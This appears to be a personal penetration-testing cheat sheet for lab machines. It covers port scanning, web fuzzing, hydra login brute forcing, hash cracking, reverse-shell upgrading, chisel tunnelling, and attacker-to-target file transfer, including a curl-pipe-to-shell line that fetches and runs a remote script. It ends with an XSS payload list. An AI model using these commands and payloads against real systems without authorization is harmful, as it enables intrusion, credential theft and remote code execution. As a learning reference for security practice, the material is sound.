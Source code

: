 # Common Commands/Techniques I Use Frequently (In no particular order)

Enumeration
======
### Port Scanning
- `IP=x.x.x.x`
- `sudo masscan -p1-65535 $IP --rate=1000 -e tun0 > ports`
- `ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')`
- `nmap -Pn -sVC -vv -p$ports $IP`
### Web Directory Fuzzing
- `ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://xxxxxx.xxx/FUZZ -fc 404,400`
### VHost Fuzzing
- `ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/namelist.txt -u https://test.url -H "Host: FUZZ.test.url"`
### Things to do on the Target Machine Once you Have a Foothold
- List listening ports on the machine `ss -ltn`
- List all files and folders including hidden ones in a directory `ls al`
- See if there is anything the current user can run as sudo `sudo -l`

## Encryption/Decryption
### PGP
- Add an encryption key you've found to the keyring `gpg --import x.key`
- Use aforemntioned key to decrypt a file `gpg x.pdf.gpg`
### SSH
- Generate SSH keys for a user `ssh-keygen -f username`
### Hash Cracking
- Crack an MD5(APR) hash `hashcat -a 0 -m 1600 ./hash /usr/share/wordlists/rockyou.txt`

## Login Brute Forcing
### FTP
- Use lists created by RoomPrepper (The createLists.sh script takes the users and passwords from the notes.md file and creates these lists) `hydra -L user.lst -P password.lst ftp://x.x.x.x`
### SSH
- Use lists created by RoomPrepper (The createLists.sh script takes the users and passwords from the notes.md file and creates these lists) `hydra -L user.lst -P password.lst ssh://x.x.x.x -t 4 -vV`
### Web
- Using hydra with a captured request using the format `hydra -l <username> -P <password_wordlist> <machine_ip> <request_type> '<login_page>:<request_body>:<invalid_notification>'`\
so an example command is as follows `hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.174.201 http-post-form "/Account/login.aspx?ReturnURL=/admin:__VIEWSTATE=c7UvYlF%2FOoYdanjSx3HqFGCZ9ktcaqHpKyHHiKbVfNezx4JX%2BkvSkLj9IH9GbWF4z41mnESai4vX%2FkWm576GotEhS3W66Cvoz9as16iMPgK0d6yqjJHRpODyonGR2%2Fp3%2FIM8LcN%2Fr5X7zNiaYMnBzEAjp8eFYgBqjCVyUgoP2v7tqlHu&__EVENTVALIDATION=PknlTsjoXO2tIIQR4GG4BnQkewRFwQjxfpAKT06eOvI%2FL%2F07msVZ7JUQ4nBX7RAnbfZRdZ2%2B4gUl2BdBAuoEtbsQww69pvT2jUbpA%2F00YfgzuX8de4fjki4HfD4SDig3jJjMjZoQBLYOdW2Y%2B8W%2FTf17Bdd0hRBOzS%2BpvBmRWe0UIBx7&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed" -vv`
- Using hydra with some parameters instead of the entire login request example `hydra -l milesdyson -P log1.txt 10.x.x.x http-post-form '/squirrelmail/src/redirect.php:login_username=milesdyson&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user`
- Using hydra to brute force a basic auth page `hydra -l admin -P /usr/share/seclists/Passwords/Common-Credentials/500-worst-passwords.txt -s 80 -f enum.thm http-get /labs/basic_auth`

## Upgrade Reverse Shell (To one that has autocomplete and won't be killed by Ctrl^C etc.)
### Using Python
1. In reverse shell `python3 -c 'import pty; pty.spawn("/bin/bash")'`
2. Press CTRL^Z to put the reverse shell in the background
3. In the host terminal (It should be at this stage now when the reverse shell has been backgrounded) `stty raw -echo; fg`
4. In the reverse shell that has now been foregrounded `echo TERM=xterm-256color` followed by `reset` if required

## Find files
### Find Command
- `find / 2>/dev/null | grep desired_word`

## Tunneling
### SSH
- Open an SSH session where all traffic to port 1111 on the target machine is forwarded to port 1111 on the attacking machine `ssh user@x.x.x.x -L 1111:localhost:1111`
### Chisel
1. Transfer chisel binary to target
2. Start chisel server on attacker machine `chisel server --reverse --port 9001`
3. On the target run `chisel client 10.x.x.x:9001 R:2049:127.0.0.1:2049`

## Facilitation of File Transfers Between Attacker and Target
### Python web server
1. Start a simple web server from current working directory `python3 -m http.server 8000`
  - Download a file from aforementioned simple web server `wget http://10.x.x.x:8000/revsh.php` or `curl -O http://10.x.x.x:8000/chisel`
  - Run a file from aforementioned simple web server `curl http://10.x.x.x:8000/linpeas.sh | sh`

## Web App Testing
### XSS
The first thing to do is to look for parameters or input fields on the page, put your unique and easy to find test data in (And submit it or whatever) and then inspect the resultant page to see wher your test data has ended up in the code. Understanding the context where it ends up will determine what type of payload you'll need to use (Try things like closing the tag/variable that it ends up in and/or commenting out any code after the payload, bypassing filtering/escaping/CSP for example). 
Things to consider:
- When dealing with an API, check the content type in the response headers. If its text/html as opposed to text/javascript etc. it could be susceptible to XSS. Send the request in a browser (Visit https://myapi.com/check.php?username=ghostbugg) and then do the usual to see if the html can be altered (Try https://myapi.com/check.php?username=<u>ghostbugg for example) etc.
- If your input ends up in a variable of a script or a span tag you can right click on it in the browser dev tools to edit it as HTML to see how the input is interpreted.
#### Common Example Payloads
- `"><u>ghostbugg` Initial test to see if we can add HTML to the page
- `;//` Javascript comment to stop any code after our payload being executed (Use only when required)
- `<script>alert(1337)</script>`
- `ghostbugg';alert(1337);//` Payload for scenario described above where our input ended up in a variable (Declared with apostrophes around it) within a script tag
- `<img src=xxxx onerror=alert(1337)>`
- `</textarea><img src=xxxx onmouseover=alert(1337)>`
- `<a href=javascript:alert(1337)>`
- `<iframe src=javascript:alert(1337)>`
- `<object data="data:text/html,<script>alert(1337)</script>"></object>`
- `<script src=data:text/javascript,alert(1337)></script>`
